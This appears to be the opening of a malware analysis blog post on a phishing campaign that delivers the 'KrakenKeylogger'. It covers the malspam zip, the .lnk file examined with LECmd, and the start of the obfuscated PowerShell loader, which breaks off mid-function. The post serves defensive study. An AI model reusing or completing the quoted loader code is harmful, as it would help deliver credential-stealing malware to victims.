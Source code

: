 ```yaml
---
title: "Kraken - The Deep Sea Lurker Part 1"
classes: wide
header:
  teaser: /assets/images/Kraken-Keylogger-pt1/logo.png
  overlay_image: /assets/images/Kraken-Keylogger-pt1/logo.png
  overlay_filter: 0.5
ribbon: DarkSlateGray
excerpt: "Part 1 of analyzing the KrakenKeylogger Malware"
description: "Part 1 of analyzing the KrakenKeylogger Malware"
categories:
  - Malware Analysis
tags:
  - KrakenKeylogger
  - PowerShell
  - .NET
  - Config Extraction  
toc: true
toc_sticky: true
toc_label: "On This Blog"
toc_icon: "biohazard"
---
```


# Intro
In this first part we will be going through a recent phishing campaign delivering a never seen before "KrakenKeylogger" malware.

# The Phish
The mail sent to the victim is a simple malspam mail with archive attachment:

![image.png](/assets/images/Kraken-Keylogger-pt1/1.png)

The archive is a `.zip` archive that contains `.lnk` file:

![image-2.png](/assets/images/Kraken-Keylogger-pt1/2.png)

# LNK Analysis
## LEcmd Tool
In order to analyze an `.lnk` file I use the [LeCMD](https://github.com/EricZimmerman/LECmd) tool. 
By using the tool we can see that the .lnk will execute `PowerShell.exe` alongside with an argument:

![image-3.png](/assets/images/Kraken-Keylogger-pt1/3.png)

## PowerShell Script
Let's breakdown the script:
```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -ExecutionPolicy UnRestricted $ProgressPreference = 0; 
function nvRClWiAJT($OnUPXhNfGyEh){ 
    $OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')
}; 

function sDjLksFILdkrdR($OnUPXhNfGyEh){ 
    $vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh; 
    for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){ 
```
